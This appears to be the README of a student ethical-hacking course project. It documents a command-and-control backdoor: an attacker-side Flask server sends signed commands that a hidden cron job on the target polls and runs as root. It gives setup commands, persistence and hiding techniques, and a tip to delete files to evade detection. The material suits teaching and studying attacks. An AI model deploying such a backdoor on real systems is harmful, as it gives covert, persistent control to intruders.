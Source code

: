 # Command-Control

## CS378 Ethical Hacking - Command and Control

David Trakhtengerts : dst726 and Ricky Woodruff : rgw664

## Install

### Attack Machine

1. Install dependencies

    ```bash
    cd server
    pip3 install -r requirements.txt
    ```
2. Generate a key pair
    
    Keys should be generated and stored in the `server` directory

    ```bash
    openssl genrsa -out private.pem 1024
    openssl rsa -in private.pem -pubout -out public.pem
    ```
3. Create a `commands.txt` file and fill it with commands to run on the target machine. Each command should be on a new line.

    ```bash
    echo $'pwd\nwhoami\nls' > commands.txt
    ```
4. Run the flask server

    ```bash
    export FLASK_APP=attacker-server.py
    flask run --host={Server IP} # server should be reachable from target machine
    # Example: flask run --host={10.0.2.4}
    ```


### Target Machine

1. Download the backdoor repo

    ```bash
    curl -L http://github.com/woodruffr4/Command-Control/archive/main.tar.gz | tar zxf -
    ```
2. From the **attacker machine**, manually copy the contents of public key (`public.pem`) to the `/client` directory on the **target machine**. The new public key should also be named `public.pem`.
    
3. Run the setup script

    ```bash
    cd Command-Control-main/client
    chmod +x setup.sh
    ./setup.sh {Your Server Endpoint}
    # Example: ./setup.sh http://10.0.2.4:5000/commands
    ```
4. Done!

Additionally, you may delete the `Command-Control-main` directory to avoid detection on the target machine.



## How it works

There are two parts to this backdoor, the flask server on the attacker side and the cron job on the target side.

### Cron job

The cron job runs every minute and calls a python script which makes a request to the `/commands` endpoint on the flask server. The server returns a signature and the commands to run. The signature will be verified using the public key and if it is valid, the commands will be run. The output of the commands is forwarded to a log file on the target machine.

### Flask Server

The flask server has one endpoint, `/commands`. This endpoint is used to send commands to the target machine.
The server reads the commands from a file `commands.txt`, and deletes the contents after (to avoid re-executing commands). It then signs the commands with a private key, and sends the signature along with the commands to the target machine.


## How it meets the requirements

1. Provide remote root shell access
    - The attacker can write commands in a file on a machine and the target machine will execute those commands.
2. Persistence
    - The target machine can reboot, and this backdoor will persist automatically because cron jobs are run on boot by default.
3. Configuration
    - The attacker can add commands to the file on their machine.
    - The attacker can configure the server ip, port, and endpoint that the commands come from.
4. Authentication
    - The attacker and target machines use a public/private key pair to authenticate each other.
    - Only the attacker who created the key pair will be able to send commands to the target machine.
5. Hiding
    - Cron job is only visible to root users (typically)
    - All cron related files are hidden by a period in front of the file name to hide from simple `ls` commands

## Detection

- At the user level there is no way to detect this backdoor because users do not have access to the cron directory.
- Root users can see the cron job, .cron.py (if they look closely), and the log file.
